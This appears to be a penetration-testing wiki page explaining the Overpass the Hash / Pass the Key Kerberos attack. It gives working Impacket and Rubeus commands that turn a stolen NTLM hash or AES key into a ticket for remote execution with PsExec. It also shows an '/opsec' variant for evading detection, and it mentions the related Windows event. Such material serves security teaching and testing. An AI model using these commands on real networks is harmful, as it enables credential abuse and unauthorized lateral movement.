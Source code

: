 # Over Pass the Hash/Pass the Key


<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


## Overpass The Hash/Pass The Key (PTK)

The **Overpass The Hash/Pass The Key (PTK)** attack is designed for environments where the traditional NTLM protocol is restricted, and Kerberos authentication takes precedence. This attack leverages the NTLM hash or AES keys of a user to solicit Kerberos tickets, enabling unauthorized access to resources within a network.

To execute this attack, the initial step involves acquiring the NTLM hash or password of the targeted user's account. Upon securing this information, a Ticket Granting Ticket (TGT) for the account can be obtained, allowing the attacker to access services or machines to which the user has permissions.

The process can be initiated with the following commands:

```bash
python getTGT.py jurassic.park/velociraptor -hashes :2a3de7fe356ee524cc9f3d579f2e0aa7
export KRB5CCNAME=/root/impacket-examples/velociraptor.ccache
python psexec.py jurassic.park/velociraptor@labwws02.jurassic.park -k -no-pass
```

For scenarios necessitating AES256, the `-aesKey [AES key]` option can be utilized. Moreover, the acquired ticket might be employed with various tools, including smbexec.py or wmiexec.py, broadening the scope of the attack.

Encountered issues such as _PyAsn1Error_ or _KDC cannot find the name_ are typically resolved by updating the Impacket library or using the hostname instead of the IP address, ensuring compatibility with the Kerberos KDC.

An alternative command sequence using Rubeus.exe demonstrates another facet of this technique:

```bash
.\Rubeus.exe asktgt /domain:jurassic.park /user:velociraptor /rc4:2a3de7fe356ee524cc9f3d579f2e0aa7 /ptt
.\PsExec.exe -accepteula \\labwws02.jurassic.park cmd
```

This method mirrors the **Pass the Key** approach, with a focus on commandeering and utilizing the ticket directly for authentication purposes. It's crucial to note that the initiation of a TGT request triggers event `4768: A Kerberos authentication ticket (TGT) was requested`, signifying an RC4-HMAC usage by default, though modern Windows systems prefer AES256.

To conform to operational security and use AES256, the following command can be applied:

```bash
.\Rubeus.exe asktgt /user:<USERNAME> /domain:<DOMAIN> /aes256:HASH /nowrap /opsec
```

## References

* [https://www.tarlogic.com/es/blog/como-atacar-kerberos/](https://www.tarlogic.com/es/blog/como-atacar-kerberos/)

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

